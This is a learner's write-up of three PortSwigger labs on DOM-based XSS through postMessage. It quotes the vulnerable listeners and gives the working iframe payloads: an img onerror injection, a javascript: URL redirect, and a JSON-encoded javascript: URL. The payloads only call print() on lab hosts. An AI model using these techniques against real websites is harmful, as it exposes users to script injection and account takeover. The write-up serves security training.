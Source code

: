 ## DOM-Based Vulnerabilities 

### DOM XSS Using Web Messages
- Exploit server to post a message to the target site that causes the `print()` function to be called.
- When I loaded the lab, I noticed this odd `[object Object` that was appearing at the top of the homepage. I reviewed the source code, and I saw the following JavaScript. I recognized the `innerHTML` as bad immediately. So it's getting the document with element id of `ads`. Unlike the resource available at https://portswigger.net/web-security/dom-based/controlling-the-web-message-source, this is not being passed into an `eval()` function.
- The issue here is that the  event listener does not verify the origin of the message, and the postMessage() from the iframe specifies targetOrigin as *, the event listener accepts the payload and passes it into the sink.
```
<script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
```
- So let's construct an iframe ... at first, I was really confused because I could not get the script tags to work. Then I found this: "The `innerHTML` sink doesn't accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like `img` or `iframe`. Event handlers such as `onload` and `onerror` can be used in conjunction with these elements."
  - I started with `<iframe src="https://0a8b009b04034dbd81757127009a00ac.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('</div></div><script>print()</script>','*')">`, and then I transformed it to this: `<iframe src="https://0a8b009b04034dbd81757127009a00ac.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">` which solved the lab (resulting in the print popup window!). 
<img width="2542" height="1353" alt="image" src="https://github.com/user-attachments/assets/47ecf6a9-5ae3-4025-9725-c6f0af766487" />

### DOM XSS Using Web Messages and JavaScript URL
- I knew it was a DOM-based redirection vulnerability through web messaging, so I just needed to locate it. I noticed there was comment functionality on the blog posts of the web app, so I focused there.
- The comment functionality allows a user to provide a website, which is then linked to the username. Upon pressing the username, the user is redirected to the website ... this must be where the vulnerability is. Let's take a look...wait, there's no web messaging functionality here. This must not be it. Good place to look for another lab, but let's move on ...
- Ah, I found it on the homepage...there's the sink, `location.href`, which is the full URL of the current page. We know that we need to construct an HTML page on the exploit server to solve this lab:
```

                        window.addEventListener('message', function(e) {
                            var url = e.data;
                            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                                location.href = url;
                            }
                        }, false);

```
- I struggled with constructing the payload here. I knew it needed to have `https:` or `http:`, and I knew it was a JavaScript URL. I attempted `<iframe src="https://0aad00b0039dc1f980ba1c2e003f00ae.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('javascript:print(); http:','*')">` thinking the semicolon would terminate it, but I wasn't really considering the rest of the message - the http:. What I needed to do instead was comment out the rest with JavaScript comment, `//`, to prevent a syntax error or whatever that was causing the failure on my origina attempt ... so the final payload is `<iframe src="https://0aad00b0039dc1f980ba1c2e003f00ae.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`.

### DOM XSS Using Web Messages and `JSON.parse`
```

                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
```
- The final payload was `<iframe src=https://0a83008804269a0380e017cb00670089.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`. What did I learn? You need to backslash quotation marks for JSON, `\"`. I reviewed the code, and I noted that `d.url` could be provided as the JavaScript URL from the previous lab. I can see the cases to assist with the JSON keys...
- When the constructed iframe loads, the postMessage() method sends a web message to the home page with the type load-channel. The even listener receives the message and parses it with JSON.parse() before sending it to the switch.
- The switch triggers load-channel case, which assigns the url property of the message to the src attribute of the ACMEplayer.element iframe. However, in our case, the url property of the message was actually a JavaScript payload. 
- **Why does this happen?** The event handler does not contain any form of origin check and the second argument specifics that any targetOrigin is allowed for the web message. 
